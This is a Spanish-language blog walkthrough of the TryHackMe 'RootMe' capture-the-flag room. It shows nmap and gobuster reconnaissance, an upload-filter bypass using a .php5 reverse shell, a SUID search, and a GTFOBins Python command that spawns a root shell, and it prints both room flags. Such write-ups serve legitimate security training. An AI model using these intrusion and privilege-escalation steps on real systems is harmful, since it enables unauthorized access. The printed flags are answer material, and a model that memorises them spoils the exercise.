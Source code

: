```yaml
---
layout:   post
title:    "Walkthrough RootMe."
subtitle: "Starting-Point"
category:   THM
tags:      [Easy,Linux,GTFOBins,Enumeration,PHP,Reverse-Shell,Walkthrough,Starting-Point]
---
```

![list](/assets/img/rootme/rootme.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.59.240 -oG allports
```


El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -sCV -p22,80 10.10.59.240 -oN target
```


![list](/assets/img/rootme/Kali-2022-09-19-11-57-40.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks. y, recopilación de información gracias a servicios de terceros.

Investigamos el servicio http que corre en el pueto 80, podemos usar `wapalizzer` para ver que tecnologias usa la pagina asi como desde el terminal `whatweb` al hacer `crtl+ u` no encontramos nada. 

Fuzzeamos la direccion IP para enumerar posibles direcctorios y nos encontramos el directorio `/panel/`y`/uploads/`.

```bash
gobuster dir -u http://10.10.59.240 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```

***
## Explotacion

Podemos tratar de subir archivos pero algunas extenciones estan prohibidas como los son php entre otras de ejecucion solo esan habilitadas las extenciones de imagenes y la de `php5` y es la extension que aprovecharemos, nos montamos un script en php5 para levantarnos una [reverse-shell]

[reverse-shell]: https://www.revshells.com/

![list](/assets/img/rootme/Kali-2022-09-19-12-23-28.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En panel tenemos un formulario para subir archivos, ponemos a la escucha el lsitener con el puerto a eleccion.


Con acceso a la victima gracias a la shell ya solo debmos buscar la flag de usuario siempres suelen estar en `/Desktop/` pero en este caso se encuentra en `/var/www/` buscarlo manualmente puede ser tedioso asi que lo buscamos con `find` con el siguiente comando.

```bash
find / -name user.txt 2>/dev/null
```

{:.note}
Hacemos un cat a user.txt y vemos la flag `THM{y0u_g0t_a_sh3ll}`.

***
## Escalacion de privilegios 

Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comado.

```bash
find \ -perm -4000 2>/dev/bull
```


{:.note}
Entre otros python tiene permisos de root.



Hay un recurso en internet que es [Gtfobins] que es unrecopilatorio ppara escalar de privileguios a traves de de binarios con permisos.

[Gtfobins]: https://gtfobins.github.io/

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Con lo anterior ya somos root lo siguientes es bucar la root de superusuario de la misma forma que hicimos con el usuario de menos privileguios.

```bash
find / -name root.txt 2>/dev/null
```


{:.note}
Hacemos un cat a root.txt y vemos la flag `THM{pr1v1l3g3_3sc4l4t10n}`.

![list](/assets/img/rootme/Kali-2022-09-19-13-06-27.png){:.lead width="800" height="100" loading="lazy"}

***
```bash
🎉 Felicitaciones ya has comprometido RootMe de Try Hack Me 🎉
```
{:.centered}
***